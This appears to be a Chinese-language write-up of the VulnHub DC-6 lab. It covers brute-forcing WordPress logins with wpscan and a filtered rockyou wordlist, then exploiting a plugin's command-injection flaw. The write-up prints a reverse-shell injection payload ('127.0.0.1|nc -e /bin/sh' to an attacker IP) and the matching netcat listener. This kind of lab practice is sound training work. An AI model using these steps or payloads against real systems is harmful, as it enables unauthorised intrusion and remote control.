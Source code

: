 > cat /usr/share/wordlists/rockyou.txt |grep k01 > passwords.txt 这应该可以为您节省几年时间。;-)

确实是字典问题，如果按照原本的字典，啧啧啧

重新使用`wpscan`进行密码爆破

```shell
#先把rockyou.txt字典中的包含k01的每一行，都重定向到当前目录下的passwords.txt文件中
cat /usr/share/wordlists/rockyou.txt |grep k01 > passwords.txt

#使用当前作者提示的密码本进行密码爆破
wpscan --url http://wordy -e u -P passwords.txt
```

![](D:\stu\vulnhub\DC靶场\pic-6\12.jpg)

爆出用户名`mark`和密码`helpdesk01`

# 漏洞利用

结合前面的插件漏洞，我觉得可以了，查看前面的其中一个`html`文件

```shell
cat /usr/share/exploitdb/exploits/php/webapps/45274.html
```

这是自己构造的`html`界面，不过这里通过访问这个插件，发现也是可行的

![](D:\stu\vulnhub\DC靶场\pic-6\13.jpg)

这里我就不用提供的`html`，自己去访问靶机中的地址，然后按照顺序点击，可以看到，`id`命令执行成功

![](D:\stu\vulnhub\DC靶场\pic-6\14.jpg)

那么尝试构造一个反弹`shell`，测试是否能够成功，在尝试进行输入时，这里的输入框进行了一个长度的限制，所以需要借助浏览器开发者工具，修改其最大长度，这里默认是15，不过想改多大就多大

![](D:\stu\vulnhub\DC靶场\pic-6\15.jpg)

再经过测试，使用`bash`反弹，我这里未能成功，采用`nc`反弹成功获取`shell`

对于多种反弹`shell`方式，可以借助网站`https://forum.ywhack.com/shell.php`测试

```shell
#在输入框输入下面代码
127.0.0.1|nc -e /bin/sh 192.168.10.2 9999
```

然后在`kali`中使用`nc`进行监听端口

```shell
#在kali中
nc -lvvp 9999
```

然后在浏览器的界面中，点击`lookup`按钮，即可发现，反弹`shell`成功

![](D:\stu\vulnhub\DC靶场\pic-6\16.jpg)
